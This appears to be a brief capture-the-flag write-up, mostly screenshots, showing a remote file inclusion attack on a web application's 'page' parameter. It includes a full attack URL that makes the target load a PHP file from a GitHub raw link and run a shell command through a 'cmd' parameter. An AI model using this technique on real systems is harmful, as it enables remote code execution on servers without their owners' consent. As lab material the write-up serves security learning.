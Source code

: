 when press Nothing as we can see a parameter page shows up :

![image](https://user-images.githubusercontent.com/67979878/128606325-65e8b66a-30f6-4b13-a549-01abb226920c.png)


try this and seems to be RFI (remote file inclusion)

![image](https://user-images.githubusercontent.com/67979878/128606348-dedc5118-b990-4193-aa9b-d82318e3332f.png)

i uploaded a php code on a website : 'you can use pastepin or github and get raw link'


![image](https://user-images.githubusercontent.com/67979878/128606388-c3daa7ce-97d5-4a68-8b87-606c366f4620.png)


now let's prepare our page parameter value ;) 

http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/global/?page=https://raw.githubusercontent.com/HussienMisbah/test/main/test.php&cmd=ls%20-la


![image](https://user-images.githubusercontent.com/67979878/128606469-9bcbc1f4-5676-4861-b926-46120fcc4225.png)


![image](https://user-images.githubusercontent.com/67979878/128606525-1e6e0cfe-2599-4ea3-810a-2f140df5b46b.png)



# done
